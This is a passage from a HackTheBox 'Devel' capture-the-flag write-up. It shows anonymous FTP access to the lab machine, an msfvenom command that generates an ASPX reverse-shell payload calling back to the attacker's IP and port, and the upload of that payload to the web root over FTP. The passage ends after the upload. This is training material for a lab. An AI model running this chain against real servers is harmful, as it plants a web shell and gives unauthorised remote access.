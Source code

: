 It looks like we can access FTP anonymously. So, we can check it out first.

```
┌──(kali㉿kali)-[~/Desktop/htb/devel]
└─$ ftp 10.10.10.5                                                                                 
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||49158|)
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
```

It looks like the data stored in the FTP server is being used to host the IIS based webpage. Apart from that nothing useful can be found in the FTP service.

When we access the IP address via browser we can see the same `welcome.png` being hosted which confirms our suspicion.

![image-20220821094754797](E:\GitHub\Writeups\HackTheBox\Easy\devel\.images\image-20220821094754797.png)

This gives a clear hint that we can try to upload a malicious page from the FTP server and then invoke it by sending a request via our browser and then get a reverse shell. 

## Gaining Foothold

The first thing that we need is an ASPX based payload that we can upload on the FTP server and we can use `msfvenom` for that.

```
┌──(kali㉿kali)-[~/Desktop/htb/devel]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.4 LPORT=1337 -f aspx > shell.aspx 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of aspx file: 2725 bytes
```

Once the payload is generated, the next task is to upload it.

```
┌──(kali㉿kali)-[~/Desktop/htb/devel]
└─$ ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> put shell.aspx
local: shell.aspx remote: shell.aspx
229 Entering Extended Passive Mode (|||49170|)
125 Data connection already open; Transfer starting.
100% |************************************************************************|  2760       11.54 MiB/s    --:-- ETA
226 Transfer complete.
2760 bytes sent in 00:00 (10.74 KiB/s)
ftp> ls
```